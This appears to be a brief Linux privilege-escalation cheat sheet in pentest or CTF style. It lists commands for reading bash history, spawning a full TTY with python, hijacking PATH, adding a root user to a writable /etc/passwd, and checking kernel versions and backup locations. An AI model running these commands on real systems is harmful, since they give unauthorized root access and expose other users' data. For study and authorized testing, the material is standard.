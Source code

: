 ```
# history

# cat /home/user/.bash_history
```

``No tty present`` fix:

```
# python -c 'import pty;pty.spawn("/bin/bash")'

or

# python3 -c 'import pty;pty.spawn("/bin/bash")'

or

# <CTRL+Z>
# stty raw -echo;fg
# <ENTER> <ENTER>
```

Execution Flow Hijacking:

Get current environment variables:

```
# print $PATH
```

Hijack:

```
# export PATH=<PATH_TO_YOUR_BINARY>:$PATH
```

Writable ``/etc/passwd`` file:

```
# openssl passwd -1 -salt <USERNAME> <PASSWORD>                                        <- Attack Box
# echo "<UESRNAME>:$1$<USERNAME>........../:0:0:/root/root:/bin/bash" >> /etc/passwd   <- Target Box (be aware of escape characters, bc echo might delete some chars)
```


Check out possible kernel exploits:

```
# uname -r 

# uname -a

# hostname
```

Check backup files. Possible directories:

```
/root
/home
/tmp
/var
/var/backups
/opt
/opt/backups
/usr
```
